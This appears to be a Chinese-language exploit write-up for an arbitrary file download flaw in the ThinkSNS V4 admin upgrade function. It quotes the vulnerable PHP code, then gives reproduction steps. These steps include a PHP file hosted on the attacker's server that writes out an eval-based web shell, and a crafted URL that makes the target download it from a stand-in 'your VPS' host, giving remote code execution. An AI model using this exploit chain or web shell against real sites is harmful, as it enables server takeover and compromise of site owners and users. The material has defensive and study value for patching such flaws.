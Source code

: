 ThinkSNS V4 后台任意文件下载导致getshell
========================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

存在漏洞代码`\ts4\apps\admin\Lib\Action\UpgradeAction.class.php`中的一个函数中。

    public function step1()
    {
        $downUrl = $_GET['upurl'];
        $downUrl = urldecode($downUrl);
        $path = DATA_PATH.'/'.'upgrade/'.basename($downUrl);

        // # 备份老配置文件
        $oldConf = file_get_contents(CONF_PATH.'/thinksns.conf.php');
        file_put_contents(DATA_PATH.'/old.thinksns.conf.php', $oldConf);

        // # 下载增量包
        is_dir(dirname($path)) or mkdir(dirname($path), 0777, true);
        file_put_contents($path, file_get_contents($downUrl));
        file_exists($path) or $this->showError('下载升级包失败，请检查'.dirname($path).'目录是否可写，如果可写，请刷新重试！');

        // 验证hash判断包是否合法。
        $filename = dirname($path).'/upgrade.json';
        $data = file_get_contents($filename);
        $data = json_decode($data, false);
        if (md5_file($path) != $data->md5) {
            $this->showError('更新包校验失败，请重新执行升级.');
        }

函数

    file_put_contents — 将一个字符串写入文件
    file_get_contents — 将整个文件读入一个字符串

在这段函数中，先备份老配置文件，然后下载增量包，下载参数\$downUrl未经过任何处理，直接下载到网站目录下，接着验证hash判断包是否合法，但是并没有删除下载的增量包，导致程序在实现上存在任意文件下载漏洞，下载远程文件到网站目录下，攻击者可指定第三方url下载恶意脚本到网站目录，进一步触发恶意代码，控制网站服务器。

### 漏洞复线

在自己的服务器创建一个 `ian.php`

    <?php   
    echo "<?php";
    echo "eval(file_get_contents('php://input'));";  
    echo "?>";  
    ?>  

登录后台，通过访问构造的url，成功下载第三方源的恶意脚本文件

`http://www.0-sec.org:8000/ts4/index.php?app=admin&mod=Upgrade&act=step1&upurl=http://你的vps:8000/ian.php`

通过直接访问url，触发代码执行，成功获取网站服务器权限。
